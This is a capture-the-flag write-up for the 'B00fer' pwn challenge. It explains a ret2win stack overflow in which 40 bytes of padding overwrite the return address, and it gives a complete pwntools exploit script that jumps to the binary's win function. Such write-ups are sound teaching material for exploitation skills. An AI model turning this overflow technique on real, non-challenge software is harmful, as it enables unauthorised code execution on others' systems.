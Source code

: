 ### Challenge description

The Consortium sent us this file and connection info. Looks like they are taunting us.

They are running the file at b00fer.niccgetsspooky.xyz, at port 9001. Try to get them to give up the flag.

`nc b00fer.niccgetsspooky.xyz 9001`


### Solution

It's a simple ret2win PWN challenge. There is a win function that contains flag and we simply have to overwrite the return address to jump to that function.

Analyzing in pwndbg, we can overwrite return address after 40 bytes.

![overflow](./pwndbg.png)

Using pwntools to get the flag:

```python
import pwn

# Establish connection
elf = pwn.ELF('./B00fer')
p = elf.process()
#p = remote('b00fer.niccgetsspooky.xyz', 9001)  -- uncomment for remote connection

# win address is static due to no-pie
win_addr = elf.symbols['win']

p.recvline()
# Overwrite return address with win address
p.sendline(b"A"*40 + pwn.p64(win_addr))

p.interactive()
```

![Flag](./flag.png)